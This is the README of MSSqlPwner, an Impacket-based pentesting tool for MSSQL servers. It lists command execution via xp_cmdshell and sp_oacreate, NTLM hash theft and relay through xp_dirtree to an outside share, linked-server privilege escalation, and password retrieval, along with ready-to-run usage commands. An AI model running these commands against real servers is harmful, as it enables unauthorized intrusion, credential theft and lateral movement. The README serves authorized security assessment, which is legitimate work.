 # MSSqlPwner
<p align="center">
 <img src="https://github.com/ScorpionesLabs/MSSqlPwner/blob/main/logo.PNG?raw=true">
</p>
MSSqlPwner is an advanced and versatile pentesting tool designed to seamlessly interact with MSSQL servers and based on Impacket.
The MSSqlPwner tool empowers ethical hackers and security professionals to conduct comprehensive security assessments on MSSQL environments.

With MSSqlPwner, users can execute custom commands through various methods, including custom assembly, `xp_cmdshell`, and `sp_oacreate(Ole Automation Procedures)` and much more. 

The tool starts with recursive enumeration on linked servers and gather all the possible chains.

Also, the MSSqlPwner tool can be used for NTLM relay capabilities, utilizing functions such as `xp_dirtree`, `xp_subdirs`, `xp_fileexist`, and command execution.

This tool provide opportunities for lateral movement assessments and exploration of linked servers.

If the authenticated MSSQL user does not have permission to execute certain operations, the tool can find a chain that might allow the execution. 
For example, it can send a query to a linked server that returns back with a link to the authenticated MSSQL service with higher permissions.
The tool also supports recursive querying via links to execute queries and commands on otherwise inaccessible linked servers directed from the compromised MSSQL service.


This tool is supported by multiple authentication methods and described below.

## Disclaimer
This tool is designed for security professionals and researchers for testing purposes only and should not be used for illegal purposes.

## Functionalities:
1. Command Execution: Execute commands using the following functions:
- `xp_cmdshell` on local server or on linked servers
- `sp_oacreate` (Ole Automation Procedures) on local server or on linked servers

2. NTLM Hash Stealing and Relay: Issue NTLM relay or steal NTLM hashes using the following functions:
- `xp_dirtree` on local server or on linked servers
- `xp_subdirs` on local server or on linked servers
- `xp_fileexist` on local server or on linked servers

3. Encapsulated Commands and Queries: Execute incapsulated commands or queries using the following options:
- `execute_command` on local server or on linked servers
- `run_query` on local server or on linked servers
- `run_query_system_service` on local server or on linked servers as system user
4. Direct Queries 
- `direct_query` - execute direct queries on local or linked servers as system user.


## Lateral Movement and Chain Exploration:
MSSqlPwner provides opportunities for lateral movement assessments and exploration of linked servers. 
In scenarios where the current session lacks administrative privileges, the tool attempts to find a chain that escalates its own privileges via linked servers. 
If a session on a linked server has higher privileges, the tool can interact with the linked server and perform a linked query back to the host with elevated privileges, enabling lateral movement with the target server.

## Authentication Methods:
Supported by multiple authentication methods, including:
- Windows credentials
- MSSQL credentials
- Kerberos authentication
- Kerberos tickets
- NTLM Hashes

The tool adapts to various scenarios and environments, verifying the effectiveness of authentication mechanisms.

Take your MSSQL environment assessments to the next level with the power and versatility of MSSqlPwner. 
Discover new possibilities for lateral movement, stealthy querying, and precise security evaluations with this the MSSqlPwner tool.

## Installation
```
git clone https://github.com/El3ct71k/MSSqlPwner
cd MSSqlPwner
pip3 install -r requirements.txt
python3 MSSqlPwner.py
```

## Usage
```
# Executing custom assembly on the current server with windows authentication and executing hostname command 
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth custom-asm hostname

# Executing custom assembly on the current server with windows authentication and executing hostname command on the SRV01 linked server
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-server SRV01 custom-asm hostname

# Executing the hostname command using stored procedures on the linked SRV01 server
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-server SRV01 exec hostname

# Executing the hostname command using stored procedures on the linked SRV01 server with sp_oacreate method
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-server SRV01 exec "cmd /c dir \\\\192.168.45.250\\test" -command-execution-method sp_oacreate

# Issuing NTLM relay attack on the SRV01 server
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-server SRV01 ntlm-relay \\\\192.168.45.250\\test

# Issuing NTLM relay attack on chain ID 5
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 5 ntlm-relay \\\\192.168.45.250\\test

# Issuing NTLM relay attack on the local server with custom command
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay \\\\192.168.45.250\\test

# Executing direct query
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth direct_query "SELECT CURRENT_USER"

# Retrieving password from the linked server DC01
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-server DC01 retrive-password
```


## Thanks
- [Kim Dvash](https://www.linkedin.com/in/kim-d-5b3114111) for designing this incredible logo.
- [Pablo Martínez](https://www.tarlogic.com/blog/linked-servers-adsi-passwords/) for the inspiration and the idea of the retrieving password technique.
- [Omri Baso](https://www.linkedin.com/in/omri-baso-875aaa191/) for helping with inspiration and ideas.